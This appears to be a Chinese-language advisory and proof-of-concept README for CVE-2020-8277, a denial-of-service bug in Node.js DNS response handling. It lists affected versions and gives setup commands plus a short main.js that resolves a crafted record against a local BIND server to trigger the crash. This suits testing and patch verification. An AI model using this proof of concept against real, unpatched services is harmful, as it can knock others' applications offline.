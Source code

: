 # CVE-2020-8277：Node.js通过DNS请求实现拒绝服务

近日，Node.js官方发布最新安全版本公告，披露在v12.x，v14.x和v15.x 相应的Node.js版本中存在一处高风险的拒绝服务漏洞(CVE-2020-8277)。受影响的Node.js应用允许攻击者对目标主机发送DNS请求，利用Node.js应用解析大量响应的DNS记录来对目标主机实现拒绝服务攻击。

影响版本：

* Node.js 12.x: 12.16.3-12.19.1
* Node.js 14.x: 14.13.0-14.15.1
* Node.js 15.x全部版本

Quick Run：


```bash
# clone this repository
$ git clone https://github.com/masahiro331/CVE-2020-8277

# run bind
$ docker build -t bind-local  ./bind
# Need TCP fallback
$ docker run --rm --name bind -it -p 53:53 -p 53:53/udp bind

# use "< v15.2.1" version
# If you use fixed version, build node.
$ git clone https://github.com/nodejs/node
$ git checkout df211208c0
$ ./configure
$ make -j8
$ make install

# Run PoC
$ node main.js
```

main.js：

```js
// const SegfaultHandler = require('segfault-handler');
// SegfaultHandler.registerHandler('crash.log');

const { Resolver } = require('dns');
const resolver = new Resolver();
resolver.setServers(['127.0.0.1']);
x = 0
resolver.resolve4('safe.masahiro331.com', (err, addresses) => {
  while (x < 1000) {
    console.log(x);
    console.log(addresses[x])
    x += 1;
  }
  console.log(err);
});

```

ref：

https://github.com/masahiro331/CVE-2020-8277

https://www.safedog.cn/news.html?id=4599

https://forum.ywhack.com/thread-114728-1-4.html